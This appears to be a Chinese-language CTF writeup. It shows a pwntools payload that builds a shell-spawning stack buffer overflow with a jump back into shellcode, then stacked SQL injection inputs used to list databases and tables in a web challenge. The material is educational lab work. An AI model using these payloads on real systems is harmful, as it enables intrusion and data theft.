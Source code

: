 ```win```环境下拖进```IDA```进行分析

- **在`rsp`最终指向的地址放上我们待执行的`shellcode`**
- **由于长度不够, 我们可以把`getshell`的`shellcode`放在读入的字符串的最开始的地方, 再通过汇编指令进行跳转**
- **在`rsp`所指向的位置覆盖上`shellcode`, 改变`rsp`的值使其指向`getshell`的`shellcode`并再次进行跳转, 完成`getshell`**

那么`payload`就很容易构造出来了: 

```python

context.arch = 'amd64'
sc1 = asm(shellcraft.sh())
sc2 = asm('sub rsp,64')//48字节的字符串+8字节的rsp+8字节的rbp, 跳回开头
sc3 = asm('jmp rsp')
elf = ELF('hello')
payload = sc1 + b'a'*(56-len(sc1)) + p64(elf.symbols['bd']) + sc2 + sc3
```

![image.png](https://i.loli.net/2020/05/11/DCm7Wv6HMOnVLja.png)

# Mini L CTF Writeup by luoqi@n

## Sign in

看源码就送flag

## Web

#### id_wife

<img src="https://i.loli.net/2020/05/16/gYQKdLw645feHW3.png" alt="image-20200516102439823.png" style="zoom:50%;" />

这个还真挺好玩的, 把认识的师傅id都输了一遍, 直到我把自己的id输了进去 (草

这里拿小sad举例: 

![image-20200516105810838.png](https://i.loli.net/2020/05/16/EtImALgT82Oeznq.png)

看见这个, 我立刻想到了强网杯的随便注 (其实找了半天) , 因为那道题用到了堆叠注入的知识点, 所以我就试了一下

```plaintext
sad'); show databases;
```

![image-20200516110446026.png](https://i.loli.net/2020/05/16/YUsGpLbv8QtgiNR.png)

成了, 再试一下查询表

```plaintext
sad'); show tables;
```

![image-20200516110244132.png](https://i.loli.net/2020/05/16/N7hIaBu3ymOJ5E8.png)
